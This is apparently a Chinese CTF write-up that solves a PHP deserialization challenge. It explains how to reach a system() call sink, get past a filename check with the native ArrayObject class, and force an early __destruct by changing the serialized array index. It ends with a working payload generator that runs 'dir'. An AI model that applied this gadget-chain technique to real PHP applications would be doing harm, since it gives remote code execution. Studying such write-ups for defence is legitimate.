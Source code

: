 解决如何触发A中的RCE,这个位置是可以进行RCE的

```php
class A
{
    public $a;
    public $b;
    public function see()
    {
        $b = $this->b;
        $checker = new ReflectionClass(get_class($b));
        if(basename($checker->getFileName()) != 'SomeClass.php'){
            if(isset($b->a)&&isset($b->b)){
                ($b->a)($b->b."");
            }
        }
    }
}
```

我们需要一个类，然而这里不允许使用SomeClass.php中的类（只有SomeClass.php有题目写的类），所以这里考虑使用原生类，这样就可以绕过了



还需要考虑怎么连接到这个SomeClass.php

`spl_autoload_register()`可以为自动加载功能

```php
function Al($classname){
    include $classname.".php";
}
spl_autoload_register('Al');
```

所以我们需要先`new SomeClass()`这个，绕过包含到该php

考虑怎么可以`快速进入destruct`?

有点类似于`phar反序列化需要我们快速进入destruct,从而绕过Error`

我们可以两种做法，一种是删除最后的大括号，一种是数组对象占用指针（改数字）

所以给出最后的payload:利用第二种

```php
<?php
include  "SomeClass.php";
 
class SomeClass{
    public $a;
}
 
$e = new E();
$a = new A();
$b = new B();
 
$e->a = $b;
$b->a = $a;
$arr = new ArrayObject();
$arr->a = "system";
$arr->b = "dir";
$a->b = $arr;
$c = new SomeClass();
$c->a = $e;
 
echo "<hr>";
echo urlencode(str_replace("i:1;", "i:0;", serialize(array($c,1))));
echo "<hr>";
```
